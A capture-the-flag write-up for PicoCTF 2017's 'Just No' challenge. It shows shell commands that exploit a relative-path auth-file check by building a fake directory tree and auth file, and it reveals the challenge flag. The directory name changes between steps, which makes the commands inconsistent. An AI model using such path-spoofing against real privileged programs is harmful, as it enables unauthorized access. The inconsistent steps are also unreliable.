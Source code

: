 # PicoCTF_2017: Just No

**Category:** Binary Exploitation
**Points:** 40
**Description:**

>A program at /problems/ec9da1496f80c8248197ba564097cebb has access to a flag but refuses to share it. Can you convince it otherwise?

**Hint:**

>Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?

## Write-up
Hmm, let's get the flag.

    $ /problems/ec9da1496f80c8248197ba564097cebb/justno
    auth file says no. So no. Just... no. 

Damn it. Let's take a look at the [source code](just-no.c). Wait.

    FILE* authf = fopen("../../problems/ec9da1496f80c8248197ba564097cebb/auth","r")

Haha! Relative paths! Now we can simply spoof a directory structure and make a fake auth file.

    $ cd ~
    $ mkdir problems
    $ mkdir problems/ec9da1496f80c8248197ba564097cebb
    $ cd problems/7e8b456c98db60be9a33339ab4509fca
    $ echo "yes" > auth
    $ /problems/7e8b456c98db60be9a33339ab4509fca/justno
    Oh. Well the auth file doesn't say no anymore so... Here's the flag: ddf649b13d560409d2649dc06f2a43ee

Therefore, the flag is `ddf649b13d560409d2649dc06f2a43ee`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTMxNTQ0Nzk2Nl19
-->